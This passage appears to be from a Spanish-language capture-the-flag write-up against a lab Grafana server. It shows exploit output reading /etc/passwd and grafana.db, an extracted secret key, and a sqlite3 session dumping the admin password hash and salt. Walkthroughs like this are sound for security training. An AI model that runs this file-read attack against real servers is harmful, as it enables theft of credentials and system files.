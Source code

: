 ```bash

[i] File "/etc/passwd" found in server.
[*] File saved in "./http_10_10_11_183_3000/passwd".

[i] File "/var/lib/grafana/grafana.db" found in server.
[*] File saved in "./http_10_10_11_183_3000/grafana.db".

[i] File "/proc/self/cmdline" found in server.
[*] File saved in "./http_10_10_11_183_3000/cmdline".

? Do you want to try to extract the passwords from the data source?  Yes

[i] Secret Key: SW2YcwTIb9zpOOhoPsMm

[*] Bye Bye!
```

Y bueno vemos que nos exporto un archivo **grafana.db**

```bash
❯ cd http_10_10_11_183_3000
❯ file *
cmdline:      empty
defaults.ini: UTF-8 Unicode text, with very long lines
grafana.db:   SQLite 3.x database, last written using SQLite version 3035004
grafana.ini:  UTF-8 Unicode text, with very long lines
passwd:       ASCII text
```

Nos podemos conectar con **sqlite3**, encontramos un hash

```bash
❯ sqlite3 grafana.db
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .table
alert                       login_attempt             
alert_configuration         migration_log             
alert_instance              ngalert_configuration     
alert_notification          org                       
alert_notification_state    org_user                  
alert_rule                  playlist                  
alert_rule_tag              playlist_item             
alert_rule_version          plugin_setting            
annotation                  preferences               
annotation_tag              quota                     
api_key                     server_lock               
cache_data                  session                   
dashboard                   short_url                 
dashboard_acl               star                      
dashboard_provisioning      tag                       
dashboard_snapshot          team                      
dashboard_tag               team_member               
dashboard_version           temp_user                 
data_source                 test_data                 
kv_store                    user                      
library_element             user_auth                 
library_element_connection  user_auth_token           
sqlite> select * from user;
1|0|admin|admin@localhost||dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069|0X27trve2u|f960YdtaMF||1|1|0||2022-03-13 20:26:45|2022-09-01 22:39:38|0|2022-09-14 16:44:19|0
sqlite> 
```
